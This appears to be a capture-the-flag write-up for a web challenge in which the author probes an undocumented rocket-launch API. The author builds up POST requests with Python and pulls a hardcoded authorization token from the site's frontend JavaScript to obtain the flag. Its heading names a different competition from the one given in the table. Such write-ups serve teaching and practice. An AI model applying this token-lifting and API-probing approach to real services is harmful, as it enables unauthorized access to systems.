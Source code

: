 # __HeroCTF_v3__ 
## _San Diego CTF 2021_

## Information

**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
WEB | 123 | soska_nerealka

**Description:** 

> Hey there intern! We have a rocket launch scheduled for noon today and the launch interface is down. You'll need to directly use the API to launch the rocket. No, we don't have any documentation. And quickly, our shareholders are watching!
>
>Website: https://space.sdc.tf/

## Solution
We should find information about this website API. Lets start with looking at requests from frontend. 

There we find GET request with "https://space.sdc.tf/api/status?verbose=" URL. It looks incomplete with this empty query parameter, does not it? Lets try to make a GET request with "https://space.sdc.tf/api/status?verbose=true".

So we get
```
{
	"status": "health",
	"longStatus": "Healthy. All routes are functioning properly.",
	"version": "1.0.0",
	"routes": [
		{
			"path": "/status",
			"status": "healthy"
		},
		{
			"path": "/rocketLaunch",
			"status": "healthy"
		},
		{
			"path": "/fuel",
			"status": "healthy"
		}
	]
}
```
Lets send empty POST request on rocketLaunch
```
import requests
import json

url = 'https://space.sdc.tf/api/rocketLaunch'
data = {}
headers = {'Content-Type': 'application/json'}

x = requests.post(url, data=json.dumps(data), headers=headers)

print(x.text)
```
Api answers with "rocket not specified". Lets try to specify it.
```
data = {"rocket": "apolo"}
```
Api answers with "rocket not recognized (available: triton)".
```
data = {"rocket": "triton"}
```
Api answers with "launchTime not specified". But we know from the task description that it should be launched at noon.
```
data = {"rocket": "triton", "launchTime": "12:00"}
```
Api answers with "fuel pumpID not specified". We can look at the available fiels by making Get request to "https://space.sdc.tf/api/fuel".
Lets use first pumpID from there.
```
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 1}
```
Api answers with "/fuel/1 is either not active or not above 50% capacity"
Ok, lets find the appropriate pump then!
```
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 4}
```
Api answers with "frontend authorization token not specified". So we need to find it!
We can easily find this code in one of files that are loaded by this website.
```
 return Object(c.useEffect)((function () {
                        var e = {
                            method: "GET"
                        };
                        window.localStorage.getItem("debug") && (e.headers = {
                                Token: "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"
                            }),
                            fetch("./api/status?verbose=", e).then((function (e) {
                                return e.json()
                            })).then((function (e) {
                                return n(e.longStatus)
                            }))
                    }), []),
```
So the final code looks like this:
```
import requests
import json

url = 'https://space.sdc.tf/api/rocketLaunch'
data = {'rocket': 'triton', 'launchTime': '12:00', "pumpID": 4, "token": "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"}
headers = {'Content-Type': 'application/json'}

x = requests.post(url, data=json.dumps(data), headers=headers)

print(x.text)
```
> sdctf{0ne_sM@lL_sT3p_f0R_h@ck3r$}
